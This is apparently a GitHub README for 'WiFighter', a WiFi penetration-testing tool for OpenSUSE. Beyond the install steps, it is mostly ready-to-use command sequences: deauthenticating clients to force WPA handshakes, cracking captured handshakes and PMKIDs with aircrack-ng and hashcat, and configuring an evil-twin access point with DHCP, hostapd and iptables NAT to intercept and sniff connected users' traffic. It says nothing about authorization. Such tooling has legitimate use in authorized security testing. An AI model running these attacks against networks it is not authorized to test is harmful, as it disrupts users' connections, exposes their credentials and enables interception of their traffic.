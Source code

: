 # WiFighter
Easy-to-use python WiFi pen-testing tool for OpenSUSE.
Utilizes aircrack-ng, hcxtools, hashcat and it's own mechanisms for wifi network scanning and executing common wifi attacks.

--------------------------------------------------------------------

## Installation 

Clone the project
```sh
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```sh
cd WiFighter
```

Make the install script executable
```sh
sudo chmod +x install.sh
```

Run install script
```sh
sudo ./install.sh
```

Run the tool
```sh
sudo wifighter
```

--------------------------------------------------------------------

## !! IMPORTANT !! - Read before use
- **Evil Twin Attack - disconnect all other internet connected interfaces than the one selected as "Internet interface"**
- **Evil Twin Attack - hcxdumptool stops capturing PMKIDs on interface chosen as "Evil Twin interface" after the Evil Twin attack ends... sometimes reseting NIC drivers with modprobe, replugging NIC or rebooting helped. It's somehow caused by the hostapd...**

## Future visions
- Choose more wordlists at once for cracking
- Cracking with hashcat GPU
- Generating wordlists
- NIC, device info in reports

--------------------------------------------------------------------

### 1. WPA/WPA2 Handshake Crack using aircrack-ng

**Monitor mode**

Set interface to monitor
```sh
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```sh
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```sh
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```sh
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```sh
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```sh
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```sh
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```sh
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```sh
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake**

```sh
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

--------------------------------------------------------------------

### PMKID Attack
Compile needed hcxtools & install it's dependencies
```sh
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools

sudo zypper in *gcc *libopenssl3 libopenssl-devel *libz1 *libz-devel *libcurl4 libcurl-devel *pkgconf-pkg-config

sudo make install


git clone https://github.com/ZerBea/hcxdumptool.git  # Install version 6.2.6
cd hcxdumptool

sudo make install
```

Install and setup hashcat
```sh
sudo zypper in hashcat pocl
```


Put wireless NIC into monitor
```sh
wifighter start <INTERFACE>
```

Capture PMKID
```sh
sudo hcxdumptool -o <OUTPUT_CAPTURE_FILE> -i <INTERFACE> -c <CHANNEL> --enable_status=3 --filtermode=2 --filterlist_ap=<TARGET_AP_MAC>
```

Convert capture into the hash format
```sh
hcxpcapngtool -o <OUTPUT_PMKID_HASH_FILE> <CAPTURED_PMKID>
```

Crack the PMKID
```sh
sudo hashcat -D 1 -a 0 -m 22000 --potfile-path=/dev/null <PMKID_HASH_FILE> <WORDLIST> -o <OUTPUT_FILE>
```

--------------------------------------------------------------------

### Evil Twin

**-MITM/Sniffer- Mode**

Install dependencies
```sh
sudo zypper in hostapd dhcp-server iptables
```

Set dhcp server's listenning interface
```sh
nano /etc/sysconfig/dhcpd 
```
```sh
DHCPD_INTERFACE="<EVIL_AP_INTERFACE>"
```

Set dhcp server's configuration
```sh
nano /etc/dhcpd.conf
```
```sh
option domain-name "local";
option domain-name-servers 8.8.8.8, 8.8.4.4;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.100.0 netmask 255.255.255.0 {
    range 192.168.100.2 192.168.100.254;
    option subnet-mask 255.255.255.0;
    option routers 192.168.100.1;
    option broadcast-address 192.168.100.255;
}
```

Set evil AP's configuration
```sh
nano /etc/hostapd.conf
```
```sh
interface=<EVIL_AP_INTERFACE>
driver=nl80211

ssid=<SSID>
channel=<CHANNEL>

hw_mode=g
ieee80211n=1
wme_enabled=1
macaddr_acl=0
```

Configure evil AP's interface
```sh
sudo ip addr add 192.168.100.1/24 dev <EVIL_AP_INTERFACE>
```

Enable internet connection for clients
```sh
sudo iptables -t nat -A POSTROUTING -s 192.168.100.0/24 -o <INTERNET_INTERFACE> -j MASQUERADE

sudo iptables -A FORWARD -i <EVIL_AP_INTERFACE> -o <INTERNET_INTERFACE> -j ACCEPT

sudo iptables -A FORWARD -i <INTERNET_INTERFACE> -o <EVIL_AP_INTERFACE> -m state --state RELATED,ESTABLISHED -j ACCEPT

sudo tee | echo 1 > /proc/sys/net/ipv4/ip_forward
```

Prevent NetworkManager from managing the evil ap's interface
```sh
sudo nmcli dev set <EVIL_AP_INTERFACE> managed no
```

Start the fake AP
```sh
systemctl restart dhcpd
systemctl restart hostapd
```

Sniff <EVIL_INTERFACE> traffic using tshark/wireshark/tcpdump...

Return back to normal state
```sh
systemctl stop dhcpd
systemctl stop hostapd
sudo iptables -F
sudo iptables -t nat -F
sudo tee | echo 0 > /proc/sys/net/ipv4/ip_forward
sudo nmcli dev set <EVIL_AP_INTERFACE> managed yes
sudo ip addr del 192.168.100.1/24 dev <EVIL_AP_INTERFACE>
sudo systemctl restart NetworkManager
```



--------------------------------------------------------------------

### WPS Attack - Reaver
Dependencies
```sh
sudo zypper in aircrack-ng
```
```sh
pixiewps - GitHub
```
```sh
libpcap - Repo
```

--------------------------------------------------------------------